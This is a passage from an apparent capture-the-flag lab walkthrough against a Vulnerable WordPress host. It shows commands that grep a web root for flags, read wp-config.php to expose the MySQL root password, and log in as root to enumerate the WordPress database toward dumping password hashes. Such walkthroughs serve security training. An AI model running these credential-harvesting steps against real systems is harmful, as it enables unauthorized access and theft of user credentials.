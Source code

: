     ./vendor/examples/scripts/XRegExp.js:	RegExp.prototype.validate = function (s) {var r = RegExp("^(?:" + this.source + ")$(?!\\s)", getNativeFlags(this)); if (this.global) this.lastIndex = 0; return s.search(r) === 0;};
    ./vendor/composer.lock:	"stability-flags": [],
    ./service.html:             	<!-- flag1{b9bbcb33e11b80be759c4e844862482d} -->

    # Alternatively, search for the flag directly
    michael@target1:/var/www$ grep -REioh flag[[:digit:]]{.+} ./html
    flag1{b9bbcb33e11b80be759c4e844862482d}
    ```

5. Find the MySQL database password.

     - **Hint**: Look for a `wp-config.php` file in `/var/www/html`.

    ```bash
    # Search for database configuration files
    michael@target1:~$ cat /var/www/html/wordpress/wp-config.php
    # Extra code omitted...
    /** The name of the database for WordPress */
    define('DB_NAME', 'wordpress')

    /** MySQL database username */
    define('DB_USER', 'root')

    /** MySQL database password */
    define('DB_PASSWORD', 'R@v3nSecurity')
    # Extra code omitted...
    ```

6. Use the credentials to log into MySQL and dump WordPress user password hashes.

   ```bash
   # Log into MySQL
   michael@target1:~$ mysql -u root -p
   Enter password: R@v3nSecurity
   Welcome to the MySQL monitor. Commands end with ; or \g.
   Your MySQL connection id is 90
   Server version: 5.5.60-0+deb8u1 (Debian)

   mysql> show databases;
   +---------------------------+
   | Database                  |
   +---------------------------+
   | information_schema        |
   | mysql                     |
   | performance_schema        |
   | wordpress                 |
   +---------------------------+
   4 rows in set (0.00 sec)

   -- Switch to wordpress database
   mysql> use wordpress;
   Reading table information for completion of table and column names
   You can turn off this feature to get a quicker startup with -A
   
   Database changed
   mysql> show tables;
   +---------------------------+
   | Tables                    |
   +---------------------------+
   ```